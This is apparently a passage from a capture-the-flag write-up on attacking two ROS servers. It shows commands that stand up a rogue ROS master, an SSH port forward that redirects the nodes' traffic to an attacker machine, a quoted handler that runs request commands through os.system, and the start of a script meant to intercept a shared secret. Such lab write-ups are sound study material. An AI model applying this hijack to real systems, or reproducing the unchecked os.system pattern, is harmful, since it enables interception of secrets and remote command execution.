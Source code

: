 ```Dockerfile
CMD ["roscore"]
```

Then I build the container and started it. You can test if the server works with curling your localhost.

Note: You need the network host to expose the port right.

```sh
sudo docker build -t ros-master-server .
sudo docker run -it --name ros-master-server --net=host ros-master-server
curl http://localhost:11311/
```

The next challenge was to get the nodes to communicate with the master, I noticed that we can't modify the environment variable, but.. there is another solution for this problem port 11311 can be demanded even by users, so my idea is to make a port forward (this time backwards). I ssh'ed a second time into the server so I now had 4 windows with shells open...

First start ssh on your attacker machine.
```sh
sudo systemctl start ssh.service
```

I now ssh'ed back into my attacker machine from both nodes.
```sh
ssh -L 11311:localhost:11311 user@10.14.78.229
```

Now both machines started the server script flawlessly. The next thing we need to do is find a vulnerability in the communication. I noticed that the server yin is accepting the request only with the secret, the yang server uses signing for the communication. Moreover the yin server executes every command just with this secret.

```python
    def handle_yang_request(self, req):
        # Check secret first
        if req.secret != self.secret:
            return "Secret not valid"

        sender = req.sender
        receiver = req.receiver
        action = req.command

        os.system(action)
```

The next question is how we can get this secret, as you might saw, we can't simply read the file with the secret. We somehow need to intercept it. I noticed that the yang server tries to access the service which executes the command on yin if we send him a ping, however this ping needs to be signed. So that this exploit successfully works we need to use the real yin server to send a request and then fast enough switch to our enemy server which will print the secret key.

I modified the yin script to that:
```python
#!/usr/bin/python3

import rospy
import codecs
import os
from std_msgs.msg import String
from yin.msg import Comms
from yin.srv import yangrequest
import hashlib

class Yin:
    def __init__(self):
        
        self.messagebus = rospy.Publisher('messagebus', Comms, queue_size=50)
```
